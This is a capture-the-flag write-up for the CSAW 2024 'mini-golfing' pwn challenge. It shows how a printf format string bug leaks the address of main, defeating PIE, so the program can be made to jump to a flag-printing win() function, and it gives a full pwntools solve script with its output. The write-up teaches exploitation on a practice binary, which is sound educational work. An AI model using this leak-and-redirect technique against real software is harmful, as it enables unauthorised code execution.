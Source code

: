 ```yaml
---
layout: post
current: post
cover: assets/csaw/zerodaytea/mini-golfing.webp
navigation: True
title: "mini-golfing"
date: 2024-09-09 11:59:00
tags: [csaw, pwn]
class: post-template
subclass: 'post'
author: ZeroDayTea
---
```


Leaky stacks with printf: format string basics

## Looking at the Problem

We're providing with a binary ``golf`` so let's first begin by seeing what protections we're working with.
```sh
$ checksec ./golf
[*] '/home/zerodaytea/CTFs/csaw2024/minigolfing/golf'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

```

And let's take a look at the decomp as well with Binary Ninja
![A photo of the decomp](/assets/csaw/zerodaytea/golfdecomp.webp)

Only two functions are of particular notice that being ``main()`` and ``win()``. The ``win()`` function clearly reads the flag file but is never called explicitly so it looks like we'll need to find a way to jump to it.

Fortunately at the end of ``main()``, ``scanf()`` is used to read in an address and then jump to it with the following code segment
```c
00001360      __isoc99_scanf(&data_2094, &var_18);
00001365      int64_t rax_5 = var_18;
0000137c      printf("Ok jumping to that address...");
00001385      rax_5();
```

Unfortunately for us, however, as we saw earlier, PIE is enabled on the binary meaning the position of the binary in memory will be randomized every time it is started. We'll need to find a way to leak the address of ``win()`` in order to pass it into ``scanf()``.

Fortunately, there appears to be a simple format string printf vulnerability in
```c
00001309      fgets(&var_518, 0x400, stdin);
0000131d      printf("hello: ");
00001331      printf(&var_518);
```

As ``printf()`` is called on our input with no format specifier, we can pass our own format specifier as input and leak values earlier on the stack. Since ``win()`` is never invoked, it's address will likely not be anywhere on the stack, but the address of ``main()`` surely will be and we can use the fact that ``win()`` and ``main()`` will always be at consistent offsets away from each other to our advantage. 

I'll use gdb and pass in the ``%p`` format specifier to leak stack data as pointers. Looking at the address space with ``info proc mappings`` we see
![memory space](/assets/csaw/zerodaytea/memoryspace.webp)
So we should be looking for addresses of the format ``0x55555555...`` 

Passing in as many ``%p``'s into the printf call as we can we can then start looking for something matching. Note that this can be more easily done but just iterating with ``%{i}$p`` until we find something like the address of main but because our buffer is big enough here this works as well.

![format string](/assets/csaw/zerodaytea/formatstring.webp)
We can use ``info functions main`` in gdb to get the address of main and win

```
pwndbg> info functions main
All functions matching regular expression "main":
...
Non-debugging symbols:
0x0000555555555223  main
...
pwndbg> info functions win
All functions matching regular expression "win":
0x0000555555555209  win
```

Looking back at our leaked addresses we spot ``0x555555555223`` as the 177th address printed (quick trick is to count the number of periods appearing between the stack leaks).

Now we now that even outside of gdb we can always always use the format specifier ``%177$p`` to leak the address of main. Since we see that ``win()`` is just ``0x555555555223 - 0x555555555209 = 0x1a`` offset away from ``main()`` we can simply leak the address of main and use the offset to calculate the address we want to jump to.

Writing up our solve script to do just that we get something like
```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./golf")
context.binary = elf

def conn():
    if args.GDB:
        script = """
        br main
        c
        """
        p = gdb.debug(elf.path, gdbscript=script)
    elif args.REMOTE:
        p = remote("addr", 1337)
    else:
        p = process(elf.path)
    return p

def main():
    p = conn()

    p.sendlineafter("name?", "%177$p")
    output = p.recvline()
    main_addr = output.strip()[7:]
    main_addr_int = int(main_addr, 16)
    win_addr_int = main_addr_int - 0x1a
    win_addr = hex(win_addr_int)
    print(win_addr)

    p.sendlineafter("aim at!:", win_addr)

    p.interactive()

if __name__ == "__main__":
    main()
```

If you are unfamiliar with pwntools scripts just take note of the main function where the program is started up, the format specifier is sent, the address of main is parsed from the result, the offset is subtracted, and the resulting address is sent back to the running binary.

Running our solve we get a flag!
```
$ python3 solve.py 
[*] '/home/zerodaytea/CTFs/csaw2024/minigolfing/golf'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Starting local process '/home/zerodaytea/CTFs/csaw2024/minigolfing/golf': pid 29025
0x56f233f74209
[*] Switching to interactive mode
 Ok jumping to that address...csawctf{test_flag}
[*] Got EOF while reading in interactive
```

Simply replacing the ``p = remote()`` call above we can leak the remote flag just as easily.
